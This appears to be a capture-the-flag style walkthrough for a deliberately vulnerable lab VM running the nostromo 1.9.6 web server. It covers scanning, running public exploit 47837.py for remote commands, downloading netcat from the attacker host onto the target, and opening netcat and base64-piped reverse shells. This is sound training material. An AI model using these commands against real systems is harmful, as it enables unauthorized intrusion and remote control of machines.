# MyWeb Server

## Machine Information

- **Machine:** MyWeb Server
- **Platform:** Offensive Pentesting Lab
- **Repository:** https://github.com/InfoSecWarrior/Offensive-Pentesting-Lab/tree/main/Vulnerable-OVA

---

# Lab Setup

1. Download the vulnerable machine from the repository.
2. Import the OVA into VirtualBox.
3. Start the virtual machine.
4. The VM should automatically obtain an IP address.












---

# Reconnaissance

## Port Scan

```bash
nmap -v -p- 192.168.2.248
```



---

## Save Scan Results

```bash
nmap -v -sT -sV -sC -A -p- 192.168.2.248 -oA my-web-server
```


---

## Test HTTP Service

```bash
nc 192.168.2.248 80
```



Verbose connection:

```bash
nc -v 192.168.2.248 80
```



---

## Vulnerability Identification

Review the detected service versions.

Search for publicly known vulnerabilities.

Examples:

```
Apache httpd 2.4.38 Debian exploit
```


Apache did not expose a suitable vulnerability.


Search for:

```
nostromo 1.9.6 exploit
```


A matching exploit is available.


Download the exploit.



Review the source code.



---

# Exploit Execution

Run the exploit.

```bash
python 47837.py
```



If compatibility issues occur, edit the exploit.

```bash
vim 47837.py
```


Run again.

```bash
python 47837.py
```



If required, execute using Python 2.

```bash
python2.7 47837.py
```


---

## Command Execution

General syntax:

```text
python2.7 47837.py <target_ip> <target_port> "<command>"
```

Example:

```bash
python2.7 47837.py 192.168.2.248 2222 id
```



Additional examples:

```bash
python2.7 47837.py 192.168.2.248 2222 "ip a"

python2.7 47837.py 192.168.2.248 2222 "pwd"

python2.7 47837.py 192.168.2.248 2222 "uname -a"

python2.7 47837.py 192.168.2.248 2222 "which nc"

python2.7 47837.py 192.168.2.248 2222 "php -v"

python2.7 47837.py 192.168.2.248 2222 "which python"
```

At this stage, arbitrary command execution is confirmed.

---

# Reverse Shell Preparation

Download Netcat binaries.

```
nc32
nc64
```







Move the binaries.

```bash
sudo mv -v nc32 nc64 /opt/nc
```



---

## Host the Files

```bash
cd /opt/nc
```

```bash
sudo python3 -m http.server 443
```


---

## Download Netcat on the Target

```bash
python2.7 47837.py 192.168.2.248 2222 \
"wget http://192.168.2.219:443/nc64 -O /tmp/nc64"
```



Verify the file.

```bash
python2.7 47837.py 192.168.2.248 2222 "ls -lh /tmp/"
```



Make it executable.

```bash
python2.7 47837.py 192.168.2.248 2222 "chmod +x /tmp/nc64"
```


---

# Reverse Shell

Start a listener.

```bash
nc -nlvp 443
```

Execute the uploaded Netcat binary.

```bash
python2.7 47837.py 192.168.2.248 2222 \
"/tmp/nc64 -e /bin/bash 192.168.2.219 443"
```


A reverse shell is established.

---

# Alternative Reverse Shell

If Netcat is unavailable, use another interpreter such as Python.

Generate a payload:

```
https://www.revshells.com/
```



Encode the payload.

```
https://www.base64encode.org/
```


Execute the encoded payload.

```bash
python2.7 47837.py 192.168.2.248 2222 \
"echo '<base64_payload>' | base64 -d | bash"
```

Start a listener.

```bash
nc -nlvp 443
```





A reverse shell is successfully obtained.

---

# Attack Flow

1. Import and start the vulnerable machine.
2. Perform network reconnaissance.
3. Identify running services and versions.
4. Locate a public exploit for the vulnerable service.
5. Verify remote command execution.
6. Host the Netcat binary.
7. Download the binary to the target.
8. Make the binary executable.
9. Start a Netcat listener.
10. Execute the reverse shell.
11. If Netcat is unavailable, use a Base64-encoded Python reverse shell.